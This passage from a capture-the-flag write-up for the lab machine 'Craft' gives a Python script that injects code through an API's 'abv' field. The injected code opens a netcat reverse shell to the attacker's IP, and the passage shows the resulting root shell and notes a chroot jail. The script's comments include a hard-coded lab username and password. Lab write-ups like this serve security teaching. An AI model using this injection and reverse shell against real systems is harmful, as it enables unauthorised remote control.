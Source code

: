 Using this exploit, we can craft a simple python script to automate the POST process with our token

```
import requests
from requests.auth import AuthBase
import urllib3

# user: dinesh
# pass: 4aUh0A8PbVJxgd

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class CraftAuth(AuthBase):
    def __init__(self, token):
        self.token = token

    def __call__(self, r):
        r.headers['X-Craft-API-Token'] = f'{self.token}'
        return r

def post(token):
    data = "__import__('subprocess').call(['nc','-nv','10.10.14.26','1234','-e','/bin/sh'])"
    response = requests.post('https://api.craft.htb/api/brew/', json = {'id':3000, 'brewer': 'hello', 'name': 'hello', 'style': 'hello', 'abv': data}, auth = CraftAuth(token), verify=False)
    print(response.text)

token = input('Input token here =>')
post(token)
```

This will take our token and perform our post request with the malicious import statement as shown above. With that, we can get ourselves a shell!

```
 ✘ ⚡ root@kali  ~/writeup  nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.110.
Ncat: Connection from 10.10.10.110:44753.
whoami
root
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:14:00:06  
          inet addr:172.20.0.6  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:376 errors:0 dropped:0 overruns:0 frame:0
          TX packets:291 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:41008 (40.0 KiB)  TX bytes:194838 (190.2 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:4 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:210 (210.0 B)  TX bytes:210 (210.0 B)
```
Looks like we've got ourselves into the development server for the web app. Seems like we have limited functionalities like stderr output on this server too which would mean we are in some sort of a chroot jail. Time to look around and get out!
